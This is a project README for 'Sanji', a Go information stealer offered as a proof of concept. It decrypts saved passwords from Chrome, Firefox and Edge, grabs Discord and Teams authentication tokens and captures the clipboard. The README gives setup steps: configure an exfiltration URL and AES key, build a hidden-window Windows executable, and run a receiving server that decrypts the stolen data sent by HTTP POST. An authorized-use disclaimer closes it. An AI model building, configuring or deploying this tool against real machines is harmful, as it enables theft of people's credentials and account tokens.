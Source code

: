 <head>
<h1 align=center>Sanji - Browser & Token Grabber</h1>
</head>

<p align="center">
  <img src="images/Sanji.gif" alt="Sanji"/>
</p>

Sanji is a proof-of-concept tool that can gather and decrypt password information saved in various web browsers, as well as authentication tokens from common instant messaging programs.

---

## Features

* Obtain decrypted credentials stored in the following web browsers:
    - Google Chrome
    - Mozilla FireFox
    - Microsoft Edge
* Gather authentication tokens from the following instant messaging platforms:
    - Discord
    - Microsoft Teams
* Capture the current contents of the clipboard
* Encrypt and exfiltrate data via an HTTP POST request
---
## Installation

Clone the repository:<br>
```git clone https://github.com/misthi0s/Sanji```

Modify the `POSTUrl` and `AESPassword` values in the `config.go` file to desired values.

For example, to encrypt the data with password `DiableJambe` and send it to a web server listening at `192.168.1.120` on port `8080`, modify the contents of `config.go` to the following:

```
	POSTUrl := "http://192.168.1.120:8080"
	AESPassword := "DiableJambe"
```

Finally, build the project with Go:<br>
```env GOOS=windows GOARCH=amd64 go build -ldflags "-w -s -H=windowsgui" -o sanji.exe .```

---
## Encrypted Data Format

The exfiltrated data is encrypted with AES GCM and sent using a specific format. The format is as follows:

<SALT (12 bytes)><IV (12 bytes)><ENCRYPTED_DATA>

The data is then converted to hex. This means that the first 24 characters the payload are the salt, the next 24 characters are the IV, and the rest is the encrypted data. To see an example of how this works, please refer to the `EncryptAES` function in the `utils\utils.go` file.

---
## Test Web Server

This repository contains a minimal web server that can be used to receive the encrypted data and decrypt it, displaying its contents to the screen. This server can be found in the `server_test` folder. To build this server, simply change to this directory and run the following build command:

```go build server_decrypt.go```

This will output a `server_decrypt.exe` file that will spin up the web server and listen for incoming requests.

The usage for this `server_decrypt.exe` program is as follows:

```server_decrypt.exe <listen_port> <decryption_passphrase>```

The `<listen_port>` and `<decryption_passphrase>` values must match the values configured in the payload's `config.go` file (the `<listen_port>` value only needs to be the actual port used for the connection, not the IP address as well).

---
## Disclaimer

This tool is a proof-of-concept to mimic a common information stealing malware in a controlled environment. It should only be used in an authorized manner against systems that are owned and controlled by the one executing it. There are no evasion techniques employed within this code and will very likely be caught by any AV or EDR product anyways. **FOR AUTHORIZED AND EDUCATIONAL PURPOSES ONLY.**

---
## Issues

If you run into any issues with Sanji, feel free to open an issue.